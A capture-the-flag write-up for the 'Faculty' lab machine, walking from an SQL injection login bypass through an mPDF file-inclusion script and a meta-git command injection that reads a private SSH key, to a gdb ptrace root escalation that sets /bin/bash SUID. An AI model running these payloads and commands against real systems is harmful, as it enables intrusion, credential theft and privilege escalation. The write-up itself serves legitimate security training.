 # Faculty
## User flag

```shell
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
```

The machine starts quite easily with a simple sql injection in the admin page that can be find by fuzzing. The payload admin' OR '1'='1 will bypass the login.

Then after inspecting the page It's clear that the next step is probably hacking the pdf downlaod since it is the main functionality of the page. Thanks to the url we know that the software being use is mpdf, searching on google by mpdf exploit I found and LFI exploit and later it [github issue](https://github.com/mpdf/mpdf/issues/356) that explains how to exploit it.. If you interceipt the request with burp you can see that the pdf data is url encoded two times and base64 encoded once. So I decided to create a bash script to automate the LFI proccess

```bash
#!/bin/bash


while true
do
        echo -n "enter file to donwload: "
        read file
        payload="<annotation file=\"$file\" content=\"$file\"  icon=\"Graph\" title=\"Attached File: $file\" pos-x=\"195\" />"

        payload=$(echo $payload | python3 -c "import urllib.parse, sys; print(urllib.parse.quote(sys.stdin.read()))")
        payload=$(echo $payload | python3 -c "import urllib.parse, sys; print(urllib.parse.quote(sys.stdin.read()))")
        payload=$(echo $payload | base64)
        pdf=$(curl -s -d "pdf=$payload" -H "Content-Type: application/x-www-form-urlencoded" -X POST http://faculty.htb/admin/download.php)
        timeout 0.5 wget http://faculty.htb/mpdf/tmp/$pdf &>/dev/null
        if [ $? -ne 0 ]
        then
                echo "file not found"
        else
                pdfdetach -save 1 $pdf  &>/dev/null
                rm $pdf
        fi

done
```

After getting /etc/passwd I kept searching in the page until I found a interesting route /var/www/scheduling/admin/admin.class.php and inside this file the is a reference to db\_connect.php so I donwloaded that one too and found I password. With the user from passwd and the password I connected to the user gbyolo with the pasword but I wasn't the user yet.

after executing sudo -l I found out that user gbyolo can execute meta-git as developer

```shell
gbyolo@faculty:~$ sudo -l
[sudo] password for gbyolo:
Matching Defaults entries for gbyolo on faculty:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User gbyolo may run the following commands on faculty:
    (developer) /usr/local/bin/meta-git
```

I started searching vulnerabilties and found this [HackerOne report](https://hackerone.com/reports/728040) So i used it to get the ssh key from user developer.


```shell
gbyolo@faculty:/tmp$ sudo -u developer meta-git clone 'sss||cat /home/developer/.ssh/id_rsa'
```

**Be aware that running it in gbyolo home won't work since developer cat access that directory**. Next just get the user flag


```shell
[dasor@archlinux ~/.ssh]$ ssh -i htb_rsa developer@faculty.htb
developer@faculty:~$ cat user.txt
```

## Root flag

If we execute linepeas the fact that gdb is in path apppear ins red many times also by executing the group command we can see that the use developer is in the debug group

```shell
developer@faculty:/tmp$ groups
developer debug faculty
```

So I checked gdb and realised it had the ptrace capabylity so I attached it to a python proccess that was beeing run by root and escalated privileges

```shell
developer@faculty:/tmp$ ps -aux | grep root | grep python
root         732  0.0  0.9  26896 18120 ?        Ss   Aug13   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers
developer@faculty:/tmp$ gdb -p 732
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
0x00007f7238649967 in __GI___poll (fds=0x1a01a60, nfds=3, timeout=-1) at ../sysdeps/unix/sysv/linux/poll.c:29
29      ../sysdeps/unix/sysv/linux/poll.c: No such file or directory.
(gdb) call (void)system("chmod u+s /bin/bash")
[Detaching after vfork from child process 36079]
(gdb) quit
A debugging session is active.

        Inferior 1 [process 732] will be detached.

Quit anyway? (y or n) y
Detaching from program: /usr/bin/python3.8, process 732
[Inferior 1 (process 732) detached]
developer@faculty:/tmp$ /bin/bash -p
bash-5.0# whoami
root
```

